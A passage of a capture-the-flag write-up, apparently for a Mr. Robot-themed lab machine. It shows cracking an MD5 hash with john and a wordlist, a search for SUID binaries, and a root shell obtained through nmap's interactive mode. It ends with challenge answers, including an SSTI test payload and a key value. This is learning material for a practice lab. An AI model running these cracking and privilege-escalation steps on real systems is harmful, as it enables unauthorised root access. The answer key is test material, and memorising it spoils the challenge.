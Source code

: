```

```
>When I navigated to the `/home/robot` directory I found the second key and an MD5 password hash. This gives us a hint  that to read the key, I needed a password which might be contained in the password hash. I used john to try  crack the password hash.

```
john md5.hash --wordlist=fsocity.dic --format=Raw-MD5
```

>I got the password and I was able to read the second key.
## Privilege Escalation 
>In privilege escalation, I tried several tricks but couldn't really work until I attempted to find some SUID binaries

```
find / -perm +6000 2>/dev/null | grep '/bin'
```
>I quickly spotted the nmap binary SUID. Went to GTFOBins to find its exploit
>On the terminal, I used this exploit for nmpa suid binary to have my way in as `root`

```
nmap --interactive

!sh
```
### The Challenge Questions

How Many Ports are Open on the Machine ?
 ```
 3
 ```
 From the scan results only 2 ports were open but anyway the correct answer accepted was that of 3 ports which were displayed from the scan.
What Is CMS in full ? (lowercase) 
```
 content management system
```
Google it!!😂
From Your Enumeration name the CMS in use ?(lowercase)
```
wordpress
```
Assuming there was a WEB application with a SSTI vulnerabilty whats the payload used to test this ? 
```
{{7*7}}
```
Ask google!!
Whats the name of the file used to prevent indexing by search engines on a webserver ?
```
robots.txt
```
Key 1
```
073403c8a58a1f80d943455fb30724b9
```
What is the linux command used for sorting ?
```
sort
```
what is the linux command used to get uinique words ?
```
uniq
```
How many words are in the fsociety.dic
 ```
 wc fsocity.dic                                                      
 858160  858160 7245381 fsocity.dic
 ```